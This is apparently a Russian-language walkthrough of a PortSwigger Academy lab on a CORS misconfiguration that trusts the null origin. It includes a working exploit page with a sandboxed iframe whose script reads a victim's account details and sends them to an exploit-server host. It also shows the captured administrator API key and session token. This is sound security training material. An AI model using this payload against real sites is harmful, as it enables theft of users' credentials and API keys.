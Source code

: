 залогинимся под `wiener:peter`

Откроем `Proxy` -> `HTTP history` и найдем запрос, ответ на который возвращает нам API ключ
```
GET /accountDetails 
```
и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin/pics%20for%20walkthrough/1.png)

добавим к запросу заголовок
```
Origin: null
```
и видим, что запрос проходит, и в ответе появляются два дополнительных Header'a
```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin/pics%20for%20walkthrough/2.png)

Перейдем в `exploit server` и сформируем следующий скрипт

```
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0aa40050035f3464809d44fc000e002a.web-security-academy.net'

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-0acb00cd03bc348280e34382013100c7.exploit-server.net/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null);
        </script>"></iframe>
    </body>
</html>
```

Нажмем `Store` и `Deliver exploit to victim`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin/pics%20for%20walkthrough/3.png)

Далее перейдем в Access log и найдем следующую запись
```
10.0.3.52       2024-03-25 14:35:40 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22VBs6nlg360KcpYwzH1Pxxzv8tYO5II7w%22,%20%20%22sessions%22:%20[%20%20%20%20%22uCWT99SWaBTXlJavxWrumksZ9ke3QONJ%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```

где видим api ключ 
```
VBs6nlg360KcpYwzH1Pxxzv8tYO5II7w
```
сдадим ключ в качестве ответа на задание и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/15.%20Cross-origin%20resource%20sharing%20(CORS)/2.%20CORS%20vulnerability%20with%20trusted%20null%20origin/pics%20for%20walkthrough/4.png)
